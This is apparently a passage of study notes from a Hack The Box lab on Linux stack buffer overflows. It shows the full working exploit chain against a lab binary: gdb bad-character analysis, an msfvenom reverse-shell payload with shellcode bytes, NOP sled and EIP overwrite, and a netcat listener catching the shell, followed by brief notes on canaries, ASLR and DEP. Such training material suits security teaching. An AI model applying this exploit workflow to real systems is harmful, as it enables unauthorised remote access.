To calculate the number of bytes in your CHARS variable, you can use the following:
d41y@htb[/htb]$ echo $CHARS | sed 's/\\x/ /g' | wc -w
256
This string is 256 bytes long. So you need to calculate your buffer again.
Notes
Buffer = "\x55" * (1040 - 256 - 4) = 780
CHARS = "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfd\xfe\xff"
EIP = "\x66" * 4
Now take a look at the whole function. Because if you execute it now, the program will crash without giving you the possibility to follow what happens in the memory. So you will set a breakpoint at the corresponding function so that the execution stops at this point, and you can analyze the memory’s content.
(gdb) disas main
Dump of assembler code for function main:
0x56555582 <+0>: lea ecx,[esp+0x4]
0x56555586 <+4>: and esp,0xfffffff0
0x56555589 <+7>: push DWORD PTR [ecx-0x4]
0x5655558c <+10>: push ebp
0x5655558d <+11>: mov ebp,esp
0x5655558f <+13>: push ebx
0x56555590 <+14>: push ecx
0x56555591 <+15>: call 0x56555450 <__x86.get_pc_thunk.bx>
0x56555596 <+20>: add ebx,0x1a3e
0x5655559c <+26>: mov eax,ecx
0x5655559e <+28>: mov eax,DWORD PTR [eax+0x4]
0x565555a1 <+31>: add eax,0x4
0x565555a4 <+34>: mov eax,DWORD PTR [eax]
0x565555a6 <+36>: sub esp,0xc
0x565555a9 <+39>: push eax
0x565555aa <+40>: call 0x5655554d <bowfunc> # <---- bowfunc Function
0x565555af <+45>: add esp,0x10
0x565555b2 <+48>: sub esp,0xc
0x565555b5 <+51>: lea eax,[ebx-0x1974]
0x565555bb <+57>: push eax
0x565555bc <+58>: call 0x565553e0 <puts@plt>
0x565555c1 <+63>: add esp,0x10
0x565555c4 <+66>: mov eax,0x1
0x565555c9 <+71>: lea esp,[ebp-0x8]
0x565555cc <+74>: pop ecx
0x565555cd <+75>: pop ebx
0x565555ce <+76>: pop ebp
0x565555cf <+77>: lea esp,[ecx-0x4]
0x565555d2 <+80>: ret
End of assembler dump.
Breakpoint
To set a breakpoint:
(gdb) break bowfunc
Breakpoint 1 at 0x56555551
And now, you can execute the newly created input and look at the memory.
Send CHARS
(gdb) run $(python -c 'print "\x55" * (1040 - 256 - 4) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 256 - 4) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
/bin/bash: warning: command substitution: ignored null byte in input
Breakpoint 1, 0x56555551 in bowfunc ()
After you have executed your buffer with the bad characters and reached the breakpoint, you can look at the stack.
Stack
(gdb) x/2000xb $esp+500
0xffffd28a: 0xbb 0x69 0x36 0x38 0x36 0x00 0x00 0x00
0xffffd292: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
0xffffd29a: 0x00 0x2f 0x68 0x6f 0x6d 0x65 0x2f 0x73
0xffffd2a2: 0x74 0x75 0x64 0x65 0x6e 0x74 0x2f 0x62
0xffffd2aa: 0x6f 0x77 0x2f 0x62 0x6f 0x77 0x33 0x32
0xffffd2b2: 0x00 0x55 0x55 0x55 0x55 0x55 0x55 0x55
# |---> "\x55"s begin
0xffffd2ba: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd2c2: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
<SNIP>
Here you can recognize at which address your \x55 begins. From here, you can go further down and look for the place where your CHARS start.
Stack - CHARS
<SNIP>
0xffffd5aa: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd5b2: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd5ba: 0x55 0x55 0x55 0x55 0x55 0x01 0x02 0x03
# |---> CHARS begin
0xffffd5c2: 0x04 0x05 0x06 0x07 0x08 0x00 0x0b 0x0c
0xffffd5ca: 0x0d 0x0e 0x0f 0x10 0x11 0x12 0x13 0x14
0xffffd5d2: 0x15 0x16 0x17 0x18 0x19 0x1a 0x1b 0x1c
<SNIP>
You see where your \x55 ends, and the CHARS variable begins. But if you look closely at it, you will see that it starts with \x01 instead of \x00. You have already seen the warning during the execution that the null byte in your input was ignored.
So you can note this character, remove it from your variable CHARS and adjust the number of your \x55:
Notes
# Substract the number of removed characters
Buffer = "\x55" * (1040 - 255 - 4) = 781
# "\x00" removed: 256 - 1 = 255 bytes
CHARS = "\x01\x02\x03...<SNIP>...\xfd\xfe\xff"
EIP = "\x66" * 4
Send CHARS - without Null Byte
(gdb) run $(python -c 'print "\x55" * (1040 - 255 - 4) + "\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 255 - 4) + "\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
Breakpoint 1, 0x56555551 in bowfunc ()
Stack
(gdb) x/2000xb $esp+550
<SNIP>
0xffffd5ba: 0x55 0x55 0x55 0x55 0x55 0x01 0x02 0x03
0xffffd5c2: 0x04 0x05 0x06 0x07 0x08 0x00 0x0b 0x0c
# |----| <- "\x09" expected
0xffffd5ca: 0x0d 0x0e 0x0f 0x10 0x11 0x12 0x13 0x14
<SNIP>
Here it depends on your bytes’ correct ordet in the variable CHARS to see if any char changes, interrupts, or skips the order. Now you recognize that after the \x08, you encounter the \x00 instead of the x\09 as expected. This tells you that this char is not allowed here and must be removed accordingly.
Notes
# Substract the number of removed characters
Buffer = "\x55" * (1040 - 254 - 4) = 782
# "\x00" & "\x09" removed: 256 - 2 = 254 bytes
CHARS = "\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b...<SNIP>...\xfd\xfe\xff"
EIP = "\x66" * 4
Send CHARS - without \x00 & \x09
(gdb) run $(python -c 'print "\x55" * (1040 - 254 - 4) + "\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 254 - 4) + "\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
Breakpoint 1, 0x56555551 in bowfunc ()
Stack
(gdb) x/2000xb $esp+550
<SNIP>
0xffffd5ba: 0x55 0x55 0x55 0x55 0x55 0x01 0x02 0x03
0xffffd5c2: 0x04 0x05 0x06 0x07 0x08 0x00 0x0b 0x0c
# |----| <- "\x0a" expected
0xffffd5ca: 0x0d 0x0e 0x0f 0x10 0x11 0x12 0x13 0x14
<SNIP>
This process must be repeated until all chars that could interrupt the flow are removed.
Generating Shellcode
Before you generate your shellcode, you have to make sure that the individual components and properties match the target system. Therefore you have to pay attention to the following areas:
- Architecture
- Platform
- Bad Characters
MSFvenom Syntax
d41y@htb[/htb]$ msfvenom -p linux/x86/shell_reverse_tcp lhost=<LHOST> lport=<LPORT> --format c --arch x86 --platform linux --bad-chars "<chars>" --out <filename>
MSFvenom - Generate Shellcode
d41y@htb[/htb]$ msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of c file: 425 bytes
Saved as: shellcode
Shellcode
d41y@htb[/htb]$ cat shellcode
unsigned char buf[] =
"\xda\xca\xba\xe4\x11\xd4\x5d\xd9\x74\x24\xf4\x58\x29\xc9\xb1"
"\x12\x31\x50\x17\x03\x50\x17\x83\x24\x15\x36\xa8\x95\xcd\x41"
"\xb0\x86\xb2\xfe\x5d\x2a\xbc\xe0\x12\x4c\x73\x62\xc1\xc9\x3b"
<SNIP>
Now that you have your shellcode, you adjust it to have only one string, and then you can adapt and submit your simple exploit again.
Notes
Buffer = "\x55" * (1040 - 124 - 95 - 4) = 817
NOPs = "\x90" * 124
Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
EIP = "\x66" * 4'
Exploit will Shellcode
(gdb) run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')
Breakpoint 1, 0x56555551 in bowfunc ()
Next, you check if the first bytes of your shellcode match the bytes after the NOPS.
Stack
(gdb) x/2000xb $esp+550
<SNIP>
0xffffd64c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd654: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd65c: 0x90 0x90 0xda 0xca 0xba 0xe4 0x11 0xd4
# |----> Shellcode begins
<SNIP>
Identification of the Return Address
After checking that you still control the EIP with your shellcode, you now need a memory address where your NOPs are located to tell the EIP to jump to it. This memory address must not contain any of the bad chars you found previously.
GBD NOPS
(gdb) x/2000xb $esp+1400
<SNIP>
0xffffd5ec: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd5f4: 0x55 0x55 0x55 0x55 0x55 0x55 0x90 0x90
# End of "\x55"s ---->| |---> NOPS
0xffffd5fc: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd604: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd60c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd614: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd61c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd624: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd62c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd634: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd63c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd644: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd64c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd654: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd65c: 0x90 0x90 0xda 0xca 0xba 0xe4 0x11 0xd4
# |---> Shellcode
<SNIP>
Here, you now have to choose an address to which you refer the EIP and which reads and executes one byte after the other starting at this address. In this example, you take the address 0xffffd64c.

After selecting a memory address, you replace your \x66 which overwrites the EIP to tell it to jump to the 0xffffd64c address. Note that the input of the address is entered backward.
Notes
Buffer = "\x55" * (1040 - 100 - 95 - 4) = 841
NOPs = "\x90" * 100
Shellcode = "\xda\xca\xba\xe4\x11\xd4...<SNIP>...\x5a\x22\xa2"
EIP = "\x4c\xd6\xff\xff"
Since your shellcode creates a reverse shell, you let netcat listen on port 31337.
Netcat - Reverse Shell Listener
student@nix-bow:$ nc -nlvp 31337
Listening on [0.0.0.0] (family 0, port 31337)
After starting your netcat listener, you now run your adapted exploit again, which then triggers the CPU to connect to your listener.
Exploitation
(gdb) run $(python -c 'print "\x55" * (1040 - 100 - 95 - 4) + "\x90" * 100 + "\xda\xca\xba...<SNIP>...\x5a\x22\xa2" + "\x4c\xd6\xff\xff"')
Netcat - Reverse Shell Listener
Listening on [0.0.0.0] (family 0, port 31337)
Connection from 127.0.0.1 33504 received!
id
uid=1000(student) gid=1000(student) groups=1000(student),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
You now see that you got a connection from the local IP address. However, it is not obvious if you have a shell. So you type the command id to get more information about the user. If you get a return value with information, you know that you are in a shell.
Proof-of-Concept
Public Exploit Modification
It can happen that during your penetration test, you come across outdated software and find and exploit that exploits an already known vulnerability. These exploits often contain intentional errors in the code. These errors often serve as a security measure because inexperienced beginners cannot directly execute these vulnerabilities to prevent harm to the individuals and organizations that may be affected by this vulnerability.
To edit and customize them, the most important thing is to understand how the vulnerability works, what function the vulnerability is in, and how to trigger execution. With almost all exploits, you will have to adapt the shellcode to your conditions. Instead, it depends on the complexity of the exploit.
It plays a significant role in whether the shellcode has been adopted to the protection mechanisms or not. In this case, your shellcode with a different length can have an unwanted effect. Such exploits can be written in different languages or only as a description.
The exploits may be different from the OS, resulting in different instructions, for example. It is essential to set up an identical system where you can try your exploit before running it blind on your target system. Such exploits can cause the system to crash, preventing you from further testing the service. Since it its part of your everyday life to continually find your way in new environments and always learn to keep the overview, you have to use new situations to improve and perfect this ability. Therefore you can use two applications to train these skills.
Prevention Techniques and Mechanisms
The best protection against buffer overflows is security-conscious programming. Software developers should inform themselves about the relevant pitfalls and strive for deliberately secure programming. Besides, there are security mechanisms that support developers and prevent users from exploiting such vulnerabilites.
These include security mechanisms:
Canaries
The canaries are known values written to the stack between buffer and control dato to detect buffer overflows. The principle is that in case of a buffer overflow, the canary would be overwritten first and that the OS checks during runtime that the canary is present and unaltered.
Address Space Layout Randomization (ASLR)
ASLR is a security mechanism against buffer overflows. It makes some types of attacks more difficult by making it difficult to find target addresses in memory. The OS uses ASLR to hide the relevant memory addresses from you. So the addresses need to be guessed, where a wrong address most likely causes a crash of the program, and accordingly, only one attempt exists.
Data Execution Prevention (DEP)
… is a security feature available in Windows XP, and later with Service Pack 2 and above, programs are monitored during execution to ensure that they access memory areas cleanly. DEP terminates the program attempts to call or access the program code in an authorized manner.